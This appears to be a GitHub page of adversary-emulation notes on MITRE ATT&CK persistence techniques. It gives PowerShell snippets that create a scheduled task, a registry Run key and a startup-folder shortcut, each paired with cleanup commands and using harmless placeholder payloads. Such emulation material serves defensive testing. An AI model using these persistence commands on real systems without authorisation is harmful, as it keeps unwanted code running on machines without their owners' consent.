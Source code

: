 # TA0003 - Persistence

*- maintaining access.*

## T1053.005 - Scheduled Task/Job: Scheduled Task 

- Execute `$cmd` every minute.
    - Attack:
    ```ps1
    $cmd = "taskschd.msc"
    SCHTASKS /Create /F /SC MINUTE /MO 1 /TN poc /TR $cmd
    ```
    - Cleanup:
    ```ps1
    SCHTASKS /Delete /F /TN poc
    ```

## T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder 

- Execute `$cmd` (via registry run key) when current user logins.
    - Attack:
    ```ps1
    $cmd = "PowerShell -NoExit -Command REG QUERY HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc /D $cmd
    ```
    - Cleanup:
    ```ps1
    REG DELETE HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc
    ```

- Execute `$cmd` (via startup folder) when current user logins.
    - Attack:
    ```ps1
    $cmd = "Explorer $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
    $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
    ```
    - Cleanup:
    ```ps1
    Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
    ```

## Resources

- [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)
- [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)
